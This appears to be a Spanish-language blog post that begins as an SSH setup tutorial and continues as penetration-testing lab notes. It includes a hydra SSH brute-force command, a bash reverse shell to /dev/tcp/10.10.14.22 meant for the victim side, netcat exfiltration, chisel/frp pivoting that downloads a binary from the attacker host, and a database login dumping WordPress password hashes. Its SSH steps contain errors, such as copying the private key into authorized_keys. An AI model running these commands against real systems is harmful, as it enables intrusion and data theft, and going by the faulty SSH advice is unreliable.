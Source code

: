 ```yaml
---
layout: post
author: Sergio Salgado
---
```


# [](#header-1)Como establecer una conexion remota SSH?

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#about_ssh">Que es SSH?</a>
- <a href="#instalacion">Instalacion</a>
- <a href="#configuracion">Configuracion</a>
- <a href="#conexion">Establecer conexion</a>
- <a href="#conclusiones">Conclusiones</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
Es incomodo utilizar la terminal desde algunos dispositivos, o simplemente la interfaz no es como a la que estamos acostumbrados. En este post mostrare como configurar correctamente el servicio de SSH para poder establecer una conexion remota desde otro dispositivo.


## [](#header-2)<a id="about_ssh">Que es SSH?</a>


## [](#header-2)<a id="about_ssh">Instalacion</a>


Para dispositivos con sistema operativo basado en debian


```s
#Actualizacion de sistema
sudo apt update && upgrade
#Instalacion de openssh
apt install openssh
#Para loggearte en una maquina con ssh en ejecusion donde el puerto por default es (22):
ssh user@hostname_or_ip
```

Para dispositivos <a id="andorid">android</a>

```S
pkg upgrade
pkg install openssh
```

## [](#header-2)<a id="about_ssh">Configuracion</a>

Por default la contrasena esta establecida, por lo que ingresaremos a verla con
PrintMotd yes
PasswordAuthentication yes
Subsystem sftp /data/data/com.termux/files/usr/libexec/sftp-server

Para establecer una nueva contrasena


```S
$ passwd
New password:
Retype new password:
New password was successfully set.

```

## [](#header-2)<a id="conexion">Establecer conexion</a>
Para saber el usuario de la maquina donde nos conectaremos

```S
$ whoami
```


```S
#Para usar un puerto en especifico
ssh -p 8022 user@hostname_or_ip
```

Tambien es posible crear en la maquina servifor un archivo dentro de /.ssh/ que se llame authorized_keys, jabra que copiarle la llave privada y asignarle el codigo de permisos 600. La llave se copia dentro de algun directorio de la maquina que se conectara con el nombre de id_rsa y se le pasara el siguiente comando:

```s
#Para uso de llave privada y publica
ssh -i id_rsa user@hostname_or_ip
```

Si hemos olvidado la contrasena e intentamos hacer un bruteforce al servicio de ssh mediante wordlist, podemos usar hydra de la manera siguiente:

```s
hydra -s 22 ssh://192.168.0.100 -L users -P wordlist
```

## [](#header-2)<a id="conclusiones">Conclusiones</a>
Es necesario utilizar muchos dispositivos para alguien que se dedica a la tecnologia, por lo que lo mas practico seria utilizar solo una maquina para poder comunicarnos entre los dispositivos y poder configurarlos.


# [](#header-1)Como hacer una reverse shell?
El comando siguiente hara una peticion de conexion para la ip y puerto asignado:

 ```bash
 #Para ejecutar del lado de la victima
bash -i >& /dev/tcp/10.10.14.22/443 0>&1
```

Ahora solo hara falta ponerse en escucha con netcat y para que funcione mejor la consola suelo usar tambien el rlwrap 

```s
rlwrap nc -nlvp 443
```

## [](#header-2)<a id="tratamiento tty">Tratamiento para la tty </a>

Para hacer una shell iteractiva:

```s
script /dev/null -c bash
```

Ctrl+Z

```s
stty raw -echo; fg
#ENTER
reset xterm

export TERM=xterm
export SHELL=bash
```

Para las filas

```s
#Consulta de tamano
stty size
45  174
#Para definir
stty rows 45 columns 174
```

# [](#header-1)Envio de datos mediante netcat

```s
#Maquina que envia
nc 10.10.14.22 443 < file_encrypt
#Maquina que recibe
nc -nlvp 4444 > file
```

# [](#header-1)Proxis
frp
Primero iniciamos en la maquina atacante el servidor, en esta ocasion usaremos la configuracion de default
nohup ./frps -p 7000 &

Despues hacemos cambios en el archivo frpc.ini, cambiando la IP del servidor a la del atacante. Los descargamos a la maquina victima y ejecutamos
chmod +x frpc
nohup ./frpc -c frpc_1.ini &

Chisel
Vamos a usar una herramienta llamada <a href="https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz">chisel</a> para hacer el port forwarding con el contenedor que tenemos enfrente y esta permitido para usarlo en el OSCP.

Asi que lo primero seria descomprimirlo, luego quitarle peso con upx y abrir nuestro servidor http con python para descargarlo del otro lado. 

Y al final desde el contenedor ejecutamos:

```s
curl http://10.10.14.29/chisel_1.7.7_linux_amd64 > chisel
#Le damos permisos
chmod +x chisel

./chisel client 10.10.14.29:1234 R:socks
```

Del lado de la atacante

```s
./chisel server --reverse -p 1234
```

Una vez establecida la comunicacion, hacemos una modificacion en el archivo /etc/proxychains.conf
Agregamos la siguiente linea:

```s
socks5 127.0.0.1 1080
```

Y ahora configuramos el foxyproxy con socks5, puerto 127.0.0.1 y puerto 1080 para poder llegar a estas maquinas desde el navegador.

![104](/assets/images/Toby/104_access.png)

Tambien podemos intentar romper el cifrado de las contrasenas de la DB que teniamos.

Accedemos a la base de datos con:

```SQL
proxychains mysql -uroot -pOnlyTheBestSecretsGoInShellScripts -h 172.69.0.102

show databases;

show tables;

describe wp_users;

select user_login,user_pass from wp_users;
```

Existe una pagina en linea que genera payloads, la cual es: <a href="https://www.revshells.com/"></a>